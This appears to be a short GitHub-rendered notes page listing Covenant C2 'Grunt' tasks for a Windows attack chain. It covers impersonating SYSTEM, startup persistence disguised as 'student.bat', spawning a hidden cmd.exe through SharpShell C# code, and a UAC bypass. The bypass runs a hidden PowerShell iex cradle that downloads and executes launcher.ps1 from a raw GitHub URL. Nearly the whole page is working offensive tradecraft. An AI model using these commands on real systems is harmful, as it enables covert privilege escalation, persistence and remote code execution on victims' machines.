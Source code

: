 ## Get highest local privileges
- Visibility: none
- GruntTask: **ImpersonateUser**
- Username: `NT AUTHORITY\SYSTEM`

## Setup Persistance ([source](https://www.sevenlayers.com/index.php/370-covenant-c2-deep-dive))
- Visibility: none
- GruntTask: **PersistStartup**
- Payload: [here](https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/launcher.ps1)
- FileName: `student.bat`

## Get high integrity ([source](https://www.sevenlayers.com/index.php/370-covenant-c2-deep-dive))
### Step 1
- Visibility: none
- GruntTask: **SharpShell**
- Code:
```
var startInfo = new System.Diagnostics.ProcessStartInfo { FileName = @\"C:\Windows\System32\cmd.exe\", WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden }; var cmd = new System.Diagnostics.Process { StartInfo = startInfo }; cmd.Start(); return cmd.Id.ToString();
```
### Step 2
- Visibility: High (empty cmd window up to 2s)
- GruntTask: **BypassUACCommand**
- Command: `cmd.exe`
- Parameters: 
```
/c powershell -Sta -Nop -Window Hidden -Command iex (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/launcher.ps1')
```
- Directory: none
- ProcessID: {output of step 1}
